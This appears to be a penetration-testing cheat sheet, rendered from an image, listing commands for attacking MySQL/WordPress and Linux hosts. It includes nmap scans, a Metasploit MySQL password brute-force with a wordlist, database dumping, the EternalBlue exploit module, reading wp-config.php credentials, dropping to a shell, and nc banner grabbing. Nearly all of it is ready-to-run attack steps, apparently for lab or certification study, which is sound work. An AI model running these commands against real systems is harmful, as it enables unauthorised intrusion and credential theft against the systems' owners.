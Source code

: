 **MYSQL**

```
# Targeting MYSQL (Wordpress)
nmap -sV -sC -p 3306,8585 <TARGET_IP>

searchsploit MySQL 5.5

## Brute-force MySql - msfconsole
msfconsole -q
use auxiliary/scanner/mysql/mysql_login
set RHOSTS <TARGET_IP>
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
run

## MYSQL Login with <USER>
mysql -u root -p -h <TARGET_IP>

show databases;
use <db>;
show tables;
select * from <table>;

## msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <TARGET_IP>
run

sysinfo
cd /
cd wamp
dir
cd www\\wordpress
cat wp-config.php
shell
```

**Linux Exploitation**



```
# Attacker's machine - Find target IP
cat /etc/hosts
ping <TARGET_IP>
ping <TARGET_FQDN>
mkdir <TARGET>
cd <TARGET>/

# Port Scanning - 1000 common ports or more advanced scans
nmap -sV <TARGET_IP>
nmap -sV -p 1-10000 <TARGET_IP> -oX nmap_10k
nmap -T4 -PA -sC -sV -p 1-10000 <TARGET_IP> -oX nmap_10k
nmap -T4 -PA -sC -sV -p- <TARGET_IP> -oX nmap_all
nmap -sU -sV <TARGET_IP> -oX nmap_udp

# Banner Grabbing - various ports e.g.
nc -nv <TARGET_IP> 512
nc -nv <TARGET_IP> 513
nc -nv <TARGET_IP> 1524

# Enumeration
cat /etc/*release
whoami
```
